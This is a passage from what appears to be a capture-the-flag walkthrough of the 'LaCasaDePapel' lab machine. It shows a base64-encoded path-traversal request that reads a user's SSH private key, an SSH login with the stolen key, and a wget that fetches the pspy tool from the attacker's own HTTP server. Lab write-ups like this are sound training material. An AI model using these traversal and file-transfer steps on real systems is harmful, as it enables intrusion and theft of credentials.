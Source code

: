 ```
# echo -n "../../../../home/berlin/.ssh/id_rsa" | base64
Li4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vLnNzaC9pZF9yc2E=

https://10.10.10.131/file/Li4vLi4vLi4vLi4vaG9tZS9iZXJsaW4vLnNzaC9pZF9yc2E=
```

![key.png](../../resources/3757949ca9844795a2f999c2707dc4c7.png)

Now my first thought was to SSH in as the user <b>berlin</b> since that is where I found the key but it didn't work. I decided to try the other users and it ended up working with the user <b>professor</b>

```
# ssh -i id_rsa professor@10.10.10.131

 _             ____                  ____         ____                  _
| |    __ _   / ___|__ _ ___  __ _  |  _ \  ___  |  _ \ __ _ _ __   ___| |
| |   / _` | | |   / _` / __|/ _` | | | | |/ _ \ | |_) / _` | '_ \ / _ \ |
| |__| (_| | | |__| (_| \__ \ (_| | | |_| |  __/ |  __/ (_| | |_) |  __/ |
|_____\__,_|  \____\__,_|___/\__,_| |____/ \___| |_|   \__,_| .__/ \___|_|
                                                            |_|       

lacasadepapel [~]$
```
Doing some basic enumeration, all I found Ire a couple files in the <b>professor</b> home directory but could really make much of it. My next thought was to see what processes Ire running in the background and to do this I would use a tool called <b>pspy</b>. I needed to get the <b>pspy</b> executable onto the box so I decided to use a <b>python SimpleHTTPServer</b>
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
Then I used <b>wget</b> from the professor account to copy it to his home directory.
```
# wget 10.10.14.21/pspy64
Connecting to 10.10.14.21 (10.10.14.21:80)
pspy64               100% |************************************************| 4364k  0:00:00 ETA
```
Make the file executable and then run it. After some time has passed you should see an interesting process running.
```
2019/09/18 19:06:02 CMD: UID=0    PID=5962   | sudo -u nobody /usr/bin/node /home/professor/memcached.js
```
So this process contains the same <b>memcached.js</b> file that is in the professors home directory
```
# ls -la
total 4392
```
